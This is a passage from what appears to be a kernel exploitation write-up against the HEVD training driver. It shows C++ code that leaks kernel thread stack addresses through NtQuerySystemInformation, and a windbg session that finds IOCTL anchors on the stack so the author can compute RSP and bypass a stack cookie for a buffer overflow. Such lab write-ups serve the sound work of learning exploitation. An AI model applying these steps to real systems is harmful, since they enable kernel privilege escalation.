 I'm not so sure about my chosen method, but the theory is sound and in practice it works every time.
The plan is this:
1. Calculate/leak/find somehow a stack address in the kernel
2. Find constants or predictable values in the stack the we'll use as anchors
3. Scan for these predictable values using our read primitive
4. Calculate what RSP will be when the Buffer Overflow is called, using the addresses found in step 3

For every thread in usermode process the OS allocates usermode stack and kernelmode stack.
Our plan relies on the fact that the driver behavior is pretty simple and consistent, and that the vulnerable functions are called in the context of our thread.  
So to achieve step 1 we'll take a method from Sam Brown's (sam-b) [awesome repository](https://github.com/sam-b/windows_kernel_address_leaks) for kernel address leaks.
[It uses](https://github.com/sam-b/windows_kernel_address_leaks/blob/3810bec445c0afaa4e23338241ba0359aea398d1/NtQuerySysInfo_SystemProcessInformation/NtQuerySysInfo_SystemProcessInformation/NtQuerySysInfo_SystemProcessInformation.cpp#L158) NtQuerySystemInformation and it gives us the address of the end of our kernel thread (the "StackLimit" struct member):
```cpp
PVOID stackLimit = NULL;
while (pProcessInfo != NULL) {
    if (myRtlEqualUnicodeString(&(pProcessInfo->ImageName), &myProc, TRUE)) {
        printf("[*] Process: %wZ\n", pProcessInfo->ImageName);
        for (unsigned int i = 0; i < pProcessInfo->NumberOfThreads; i++) {
            PVOID stackBase = pProcessInfo->Threads[i].StackBase;
            stackLimit = pProcessInfo->Threads[i].StackLimit;
            printf("\tStack base 0x%llx\n", stackBase);
            printf("\tStack limit 0x%llx\n", stackLimit);
            break;
        }
    }
    if (!pProcessInfo->NextEntryOffset) {
        pProcessInfo = NULL;
    } else {
        pProcessInfo = (PSYSTEM_EXTENDED_PROCESS_INFORMATION)((ULONG_PTR)pProcessInfo + pProcessInfo->NextEntryOffset);
    }
}
```

Step 2 can be done through static code reversing or in a dynamic way.  
For me, the dynamic way was easier. I've put a breakpoint at the start of our vulnerable function and looked at the data on the stack. I've found that in our case, the value of the current IOCTL is in a consistent place on the stack relative to RSP. Therefore it can be used as an anchor for our calculations.  
From the images above we can see that ```xor rax, rsp``` (rax == cookie) happens at offset 0x866FB in the HEVD.sys driver. So in windbg we enter ```bp hevd+866FB``` and trigger the function:
```
2: kd> bp hevd+866FB
2: kd> g
Breakpoint 0 hit
HEVD+0x866fb:
fffff805`2d8b66fb 4833c4          xor     rax,rsp
1: kd> r rsp
rsp=ffff928d8b2d1540
1: kd> s rsp L1000 07 20 22
ffff928d`8b2d17e8  07 20 22 00 00 00 00 00-c0 db c6 36 0c e4 ff ff  . "........6....
ffff928d`8b2d18d0  07 20 22 00 00 00 00 00-e5 8d c1 28 05 f8 ff ff  . "........(....
ffff928d`8b2d1998  07 20 22 00 0c e4 ff ff-00 00 00 00 80 00 10 00  . ".............
ffff928d`8b2d1ab8  07 20 22 00 cc cc cc cc-00 9e 11 0c 88 00 00 00  . ".............
```
The IOCTL is 0x222007 so we search it from the current RSP and up, and we've found multiple results.
